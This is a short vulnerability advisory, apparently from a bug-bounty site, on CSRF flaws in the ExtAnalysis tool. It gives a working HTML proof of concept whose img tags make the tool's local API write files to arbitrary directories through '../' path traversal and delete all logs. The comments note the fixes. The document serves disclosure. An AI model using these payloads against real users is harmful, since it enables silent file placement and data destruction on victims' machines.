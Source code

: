 The `ExtAnalysis` project is vulnerable against various CSRFs, that could lead to loss of functionalities and placement of malicious files in arbitrary directories without knowledge of the victim.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Download the git project and run the server through the `python2 extanalysis.py` command
2. Insert on a malicious host the following code
```html
<html>
<!-- Downloads the Gmass extension in the `Desktop` folder. Fix: avoid `../` + CSRF token -->
<img src="http://127.0.0.1:13337/api/?query=dlanalysis&extid=ehomdgjhgmbidokdgicgmdiedadncbgf&savedir=../../../Desktop/hacked">
<!-- Deletes all the log without knowledge of the victim. Fix: add CSRF token -->
<img src="http://127.0.0.1:13337/api/?query=deleteAll">
</html>
```
## References:
 - [GitHub Issue](https://github.com/Tuhinshubhra/ExtAnalysis/issues/11)
 - [GitHub Permalink #1](https://github.com/Tuhinshubhra/ExtAnalysis/blob/master/frontend/api.py#L43)